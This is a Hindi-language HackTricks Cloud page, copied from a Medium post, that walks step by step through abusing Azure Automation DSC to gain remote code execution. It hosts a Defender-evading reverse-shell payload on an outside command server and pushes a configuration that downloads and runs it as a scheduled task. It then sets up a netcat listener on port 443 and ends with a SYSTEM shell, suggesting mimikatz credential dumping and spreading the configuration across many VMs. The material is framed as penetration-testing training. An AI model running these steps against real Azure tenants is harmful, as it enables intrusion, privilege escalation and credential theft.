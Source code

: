 # Az - स्टेट कॉन्फ़िगरेशन RCE

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से हीरो तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

**यह पोस्ट यहाँ से कॉपी की गई थी** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### रिमोट सर्वर (C2) इंफ्रास्ट्रक्चर तैयारी <a href="#f0fa" id="f0fa"></a>

मैं "40.84.7.74" रिमोट सर्वर पर Nishang Invoke-PowerShellTcp.ps1 पेलोड का सरलीकृत संस्करण होस्ट करूँगा, जो कि Kali बॉक्स है। पेलोड का नाम "RevPS.ps1" होगा। Windows Defender द्वारा किसी भी कारण से Nishang स्क्रिप्ट को हटाए जाने से बचाने के लिए (शायद आप फाइल को डिस्क पर ड्रॉप करना पसंद करेंगे) मैंने यहाँ एक हल्का संस्करण उपलब्ध कराया है जिसे आप उपयोग कर सकते हैं जो Defender को बायपास करेगा: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). यह Kali बॉक्स पर एक साधारण Python Simple Server द्वारा होस्ट किया जाएगा।

### चरण 1 — फाइलें बनाएँ <a href="#89de" id="89de"></a>

हमें एक और DSC कॉन्फ़िगरेशन फाइल बनाने की आवश्यकता होगी। एक टेम्पलेट यहाँ से डाउनलोड किया जा सकता है: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). यह कॉन्फ़िगरेशन फाइल उसी फाइल-राइट फंक्शन का उपयोग करेगी जिसका उपयोग हमने पहले किया था। इस बार, सामग्री में हमारे रिमोट सर्वर से एक पेलोड डाउनलोड करने और निष्पादित करने के लिए कोड शामिल है। साथ ही, हम _ComputerManagementDsc_ मॉड्यूल से उपलब्ध एक निर्धारित-कार्य फंक्शन का उपयोग कर रहे हैं। निर्धारित-कार्य फंक्शन निष्पादन में मुख्य भूमिका निभाएगा और बाद में हमें SYSTEM विशेषाधिकार प्रदान करेगा।

हम एक स्क्रिप्ट भी डाउनलोड करेंगे जिसका उपयोग हम VM पर हमारे कॉन्फ़िगरेशन को प्रकाशित करने के लिए करेंगे। यह यहाँ स्थित है: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

ये फाइलें एक टेम्पलेट के रूप में काम करेंगी। **आपको चर नामों और पैरामीटरों को भरने की आवश्यकता होगी जिनका आप उपयोग कर रहे हैं**। इसमें संसाधन नाम, फाइल पथ, और बाहरी सर्वर/पेलोड नाम शामिल हैं जिनका आप उपयोग कर रहे हैं। कृपया कोड में टिप्पणियों का संदर्भ लें।

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### चरण 2 — कॉन्फ़िगरेशन फाइल को ज़िप करें <a href="#c2c2" id="c2c2"></a>

हमारी दो फाइलें बनाने के बाद, हम **‘reverse\_shell\_config.ps1’** फाइल को ज़िप करेंगे ताकि इसे स्टोरेज अकाउंट में भेजा जा सके
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### चरण 3 — स्टोरेज संदर्भ सेट करें और अपलोड करें <a href="#bed9" id="bed9"></a>

फिर से, हम अपने स्टोरेज अकाउंट का संदर्भ सेटअप करेंगे जो मैंने पहले ही कर लिया है। मेरे पास पहले से ही 'azure-pentest' नामक एक कंटेनर है, इसलिए मैं यहां अपना प्रकाशित करूंगा:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### चरण 4 — काली बॉक्स तैयार करें <a href="#20fb" id="20fb"></a>

हमारे काली बॉक्स में, हम आसानी से _wget_ का उपयोग करके हमारे PowerShell पेलोड को डाउनलोड कर सकते हैं। कच्ची रिवर्स-शेल स्क्रिप्ट यहाँ स्थित है: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)।
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

हमें रिवर्स-शेल स्क्रिप्ट में अपने पैरामीटर्स को जोड़ने की आवश्यकता है, ताकि विंडोज VM को पता चले कि एक बार निष्पादित होने पर कहां कनेक्ट करना है। मेरे मामले में मैं निम्नलिखित जोड़ता हूँ:
```
RevPShell -Reverse 40.84.7.73 443
```
### चरण 5 - कॉन्फ़िगरेशन फ़ाइल प्रकाशित करें <a href="#9ad6" id="9ad6"></a>

अब हम अपनी कॉन्फ़िगरेशन फ़ाइल चलाएंगे। मेरी सेटअप डेस्कटॉप पर प्रकाशित होने के लिए है ताकि बेहतर दृश्य मिल सके, हालांकि इसे लगभग कहीं भी प्रकाशित किया जा सकता है। कुछ मिनटों के बाद, हम देखेंगे कि रिवर्स-शेल स्क्रिप्ट प्रकाशित हो चुकी है!

### चरण 6 - पेलोड होस्ट करें और लिसनर सेटअप करें <a href="#c55f" id="c55f"></a>

एक बार जब हम कॉन्फ़िगरेशन प्रकाशित कर देते हैं, हम समानांतर रूप से पेलोड को होस्ट करने के लिए पोर्ट 80 पर एक Python SimpleHTTPServer शुरू कर सकते हैं, साथ ही साथ एक netcat लिसनर भी सेटअप कर सकते हैं ताकि कनेक्शन को पकड़ सकें:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
हम देखते हैं कि निर्धारित कार्य चला और हमारा पेलोड प्राप्त होकर **SYSTEM** स्तर की विशेषाधिकारों के साथ मेमोरी में निष्पादित हुआ!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### समापन <a href="#1ec2" id="1ec2"></a>

अब यह कई संभावनाओं के द्वार खोलता है। चूंकि हमारे पास **SYSTEM** के रूप में चल रहा शेल है, हम mimikatz के साथ क्रेडेंशियल्स डंप कर सकते हैं (यह क्लाउड संसाधनों के लिए EDR की परिपक्वता के आधार पर जोखिम भरा हो सकता है)। यदि आप क्रेड्स डंप करते हैं, तो इन्हें विभिन्न संसाधनों में फिर से उपयोग करने की अच्छी संभावना है। अंत में, एक महत्वपूर्ण बात यह है कि इसे एक VM तक सीमित रखने के बजाय, आपके पास अब इस कॉन्फ़िगरेशन को कई VMs में लागू करने की क्षमता है।

इस नोट पर, हमारे Azure Automation DSC के साहसिक कार्य का समापन होता है! मुझे आशा है कि आपने मज़ा किया, बहुत कुछ सीखा और अपनी रचनात्मकता के साथ विस्तार करते रहेंगे।

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का अनुसरण करें।**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
